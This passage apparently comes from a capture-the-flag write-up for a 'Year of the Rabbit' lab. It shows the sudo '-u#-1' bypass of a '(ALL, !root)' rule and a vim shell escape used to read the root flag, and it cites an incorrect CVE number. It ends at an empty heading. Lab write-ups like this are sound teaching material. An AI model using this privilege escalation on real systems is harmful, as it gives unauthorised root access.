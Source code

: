 Now that we have the credentials of user Gwendoline, we can switch the user and access out user flag.

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd /home/gwendoline/
gwendoline@year-of-the-rabbit:~$ ls -la
total 24
drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
-rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
-rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
-r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
```

So, our first task to obain the user flag is completed. Now, we need to escalate our privileges to root level to get the root flag.

### Privilege Escalation

We can run the `sudo -l` command to see what commands can the user run with root privileges.

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Now, this `(ALL, !root) NOPASSWD` is actually a vulnerability mentioned in [CVE-2019-4287](https://www.exploit-db.com/exploits/47502). On the same page it has explained how to exploit it. So, following the same instructions we can escalate our privileges over here as well:

```
gwendoline@year-of-the-rabbit:~$sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This would lead us to `vim` editor and display the user flag as we have passed the user flag file in the command. To get the root flag, we need to execute command from `vim` itself. 

![root](./.images/root.png)

This can be done by first pressing the escape(`Esc`) key, then `:!` and then entering whatever command that needs to be executed which in our case would be `cat /root/root.txt`. Once executed, we get the root flag as well and the room is completed!

## Some Key Points to Take Away
